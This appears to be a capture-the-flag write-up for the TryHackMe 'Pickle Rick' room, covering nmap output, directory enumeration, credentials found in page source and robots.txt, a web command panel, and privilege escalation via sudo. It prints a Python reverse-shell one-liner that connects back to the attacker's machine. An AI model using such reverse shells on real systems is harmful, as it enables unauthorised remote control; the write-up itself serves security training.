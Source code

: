 # Picke Rick

### A Rick and Morty CTF. Help turn Rick back into a human!

### Pickle Rick is a Rick and Morty themed tryhackme room where we exploit a webserver to find 3 ingredients or flags.

## Questions :

1. What is the first ingredient Rick needs?
2. Whats the second ingredient Rick needs?
3. Whats the final ingredient Rick needs?

## Enumeration

### NMAP 

> nmap -sS -sC -sV -A -O -vv BOX_IP

#### output

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-06 19:59 BST
NSE: Loaded 151 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 19:59
Completed NSE at 19:59, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 19:59
Completed NSE at 19:59, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 19:59
Completed NSE at 19:59, 0.00s elapsed
Initiating Ping Scan at 19:59
Scanning 10.10.32.22 [4 ports]
Completed Ping Scan at 19:59, 0.79s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 19:59
Completed Parallel DNS resolution of 1 host. at 19:59, 0.01s elapsed
Initiating SYN Stealth Scan at 19:59
Scanning 10.10.32.22 [1000 ports]
Discovered open port 80/tcp on 10.10.32.22
Discovered open port 22/tcp on 10.10.32.22
Completed SYN Stealth Scan at 19:59, 4.94s elapsed (1000 total ports)
Initiating Service scan at 19:59
Scanning 2 services on 10.10.32.22
Completed Service scan at 19:59, 7.52s elapsed (2 services on 1 host)
Initiating OS detection (try #1) against 10.10.32.22
Retrying OS detection (try #2) against 10.10.32.22
Retrying OS detection (try #3) against 10.10.32.22
Retrying OS detection (try #4) against 10.10.32.22
Retrying OS detection (try #5) against 10.10.32.22
Initiating Traceroute at 20:00
Completed Traceroute at 20:00, 3.02s elapsed
Initiating Parallel DNS resolution of 2 hosts. at 20:00
Completed Parallel DNS resolution of 2 hosts. at 20:00, 0.01s elapsed
NSE: Script scanning 10.10.32.22.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 20:00
Completed NSE at 20:00, 20.63s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 20:00
Completed NSE at 20:00, 3.01s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 20:00
Completed NSE at 20:00, 0.00s elapsed
Nmap scan report for 10.10.32.22
Host is up, received reset ttl 61 (0.75s latency).
Scanned at 2020-10-06 19:59:18 BST for 70s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 08:16:72:a6:42:80:aa:21:3f:9e:2a:76:4c:bc:45:0d (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDibc1nVIGXaLx8nF5hflDtQi7KVayIQjoV/97QvFHpe67phA9ozRb+o0Azrp3UBxc6zlGDJiPRPdgXZUL53Zygvip9Tj/8GYucBA1yzcN5gtWfR7cVG/vZo/ToDD2bTiVbMy1fW7zWa9Le9VEytFnsBFOk0ePEn5rI7wLuZ+HHaVTJegtq6KIVw9eQUCxTqfjEvFxCyJMSbwPXWdURGwVYOW3VVpU8awDkklUZRQ/ElsKGJLLF+CjtQ3/+aT9VeWKIP8n/k+ymFL0zvkygEGdMaUOFBiaZd8FAAiBAbHXNGg2Scsnmid8V9sXS0tyN4OuItZ7Xc26eKmlsCzDkJlJJ
|   256 38:e1:90:b4:69:a0:49:f8:1d:cb:d5:1a:79:22:a2:b1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGo31VvNkXrpUtTcaSzV68TxybntTXNKXfLV7uueau4r5ROiko7CqYXSBBbcKovi06b+fPCIxdnu84ZHNrMK41Q=
|   256 a0:48:4b:8f:87:64:67:ca:d3:d3:61:3a:b2:80:f3:8e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKlvtA3D1u0/IPcguHsofaDoMS4J2/VyFUsc5Ko+hKtM
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/6%OT=22%CT=1%CU=34655%PV=Y%DS=4%DC=T%G=Y%TM=5F7CBEC
OS:C%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=108%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M505ST1
OS:1NW7%O6=M505ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN
OS:(R=Y%DF=Y%T=40%W=6903%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Uptime guess: 0.006 days (since Tue Oct  6 19:51:51 2020)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=256 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   491.98 ms 10.4.0.1
2   ... 3
4   752.26 ms 10.10.32.22

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 20:00
Completed NSE at 20:00, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 20:00
Completed NSE at 20:00, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 20:00
Completed NSE at 20:00, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.87 seconds
           Raw packets sent: 1131 (53.730KB) | Rcvd: 1083 (46.818KB)
```

we have two open ports, 20 (ssh) and 80 (apache2 httpd)

## Site

![image](https://user-images.githubusercontent.com/53917092/95249981-e118a900-07ef-11eb-8a7e-cbdd288c1cb3.png)

### Source Code

![image](https://user-images.githubusercontent.com/53917092/95249935-d0683300-07ef-11eb-8e78-d666c56d47fc.png)

> Username: R1ckRul3s

###  find out interesting directories and files

I used dirbuster

![image](https://user-images.githubusercontent.com/53917092/95251000-44efa180-07f1-11eb-9d38-df6acd09fb4a.png)

![image](https://user-images.githubusercontent.com/53917092/95252462-63ef3300-07f3-11eb-8681-28b0a6ea917f.png)


#### robots.txt 

![image](https://user-images.githubusercontent.com/53917092/95252646-a4e74780-07f3-11eb-8898-a829866a4218.png)

(a string like a password???)

### Login

trying to login with User:R1ckRul3s and Password:Wubbalubbadubdub in /login.php

![image](https://user-images.githubusercontent.com/53917092/95253093-466e9900-07f4-11eb-89b8-cf9c15df7677.png)

![image](https://user-images.githubusercontent.com/53917092/95253107-4cfd1080-07f4-11eb-9bca-459a05af45f4.png)

#### Success

### RCE

on this panel we were able to execute commands on the system

![image](https://user-images.githubusercontent.com/53917092/95253253-85045380-07f4-11eb-9ebd-1a4f1dededdf.png)

then let's try a reverse shell from that

for this we will use the python, so we have to know where it is (and if it exists)

![image](https://user-images.githubusercontent.com/53917092/95253426-b9780f80-07f4-11eb-9a18-c8905ac8b69d.png)

all right, let's run the reverse shell

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

(changing the ip address for my thm-vpn IP)

### Reverse Shell

![image](https://user-images.githubusercontent.com/53917092/95253810-55098000-07f5-11eb-994a-3c6b88ee9c85.png)

#### Shell to TTY

> python3 -c "import pty; pty.spawn('/bin/bash')"

![image](https://user-images.githubusercontent.com/53917092/95254413-3f488a80-07f6-11eb-9a0d-9b3ae8d00ca3.png)

### answering the first question

> cat Sup3rS3cretPickl3Ingred.txt

![image](https://user-images.githubusercontent.com/53917092/95254695-a7976c00-07f6-11eb-9be7-a3e4041c6b1d.png)

### walking to the second question

![image](https://user-images.githubusercontent.com/53917092/95254893-f8a76000-07f6-11eb-9793-c4acdad204f9.png)

### answering the first question

![image](https://user-images.githubusercontent.com/53917092/95255082-402dec00-07f7-11eb-8d45-bb296536341f.png)

### walking to the second root

looking at the commands that the user can run

> sudo -l

![image](https://user-images.githubusercontent.com/53917092/95255409-b03c7200-07f7-11eb-90f2-b852d6f149dc.png)


EASY!!!!!

We can run ANY command as root without password :O

## Root flag

![image](https://user-images.githubusercontent.com/53917092/95255573-fdb8df00-07f7-11eb-9447-99a43927e285.png)
